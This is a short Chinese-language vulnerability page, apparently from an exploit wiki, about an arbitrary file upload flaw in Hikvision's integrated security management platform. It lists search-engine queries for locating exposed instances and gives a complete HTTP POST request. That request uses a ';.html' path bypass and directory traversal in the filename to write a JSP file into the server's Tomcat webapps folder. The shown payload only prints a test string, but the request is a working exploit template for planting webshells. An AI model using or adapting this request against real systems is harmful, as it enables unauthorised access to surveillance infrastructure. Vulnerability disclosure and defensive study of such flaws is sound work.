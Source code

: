 # HiKVISION 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>HiKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317.png)

需要开放运行管理中心 (8001端口)

![img](/assets/PeiQi-Wiki/img/1686202553411-652899eb-3e94-487a-9e7f-f90e245aeb66.png)

```plain
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](/assets/PeiQi-Wiki/img/1686044472564-03129d33-f072-40d9-8570-0a96bbb6e30f.png)